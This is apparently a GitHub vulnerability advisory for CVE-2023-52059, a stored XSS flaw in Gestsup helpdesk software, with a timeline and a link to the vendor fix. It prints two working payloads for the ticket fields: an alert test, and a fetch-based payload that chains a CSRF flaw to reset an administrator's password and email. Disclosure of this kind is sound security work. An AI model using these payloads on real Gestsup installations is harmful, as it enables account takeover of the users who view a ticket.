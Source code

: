 # CVE-2023-52059

## Summary

| ID                    | CVE-2023-52059                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | XSS                                                      |
| **Title**             | Stored XSS in ticket's description and resolution fields |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of user input back-end sanitization allows remote attackers to perform a stored Cross-Site Scripting (XSS) attack in Gestsup < 3.2.46.

When creating or editing a ticket, an unprivileged user is able to intercept and edit the `Description` and `Resolution` fields directly in the request to bypass front-end sanitization and store malicious HTML content.


## Impact

An unprivileged user is then able to execute script on any user's browser who are viewing the malicious ticket.

The session cookie has the HttpOnly attribute, which protects it from client-side extraction.

However, combined with [CVE-2023-52060](../CVE-2023-52060/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### XSS

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to pop an alert when any user view the malicious ticket :

```
<img src=x onerror="alert('XSS')" />
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/deacf3e8-8f6e-44b2-ba41-85b895f534c9



### XSS and CSRF

In the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit [CVE-2023-52060](../CVE-2023-52060/README.md) to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```



https://github.com/Tanguy-Boisset/CVE/assets/83412402/69514524-4530-47b6-907e-0b593bd4e691




## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- ??/01/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)
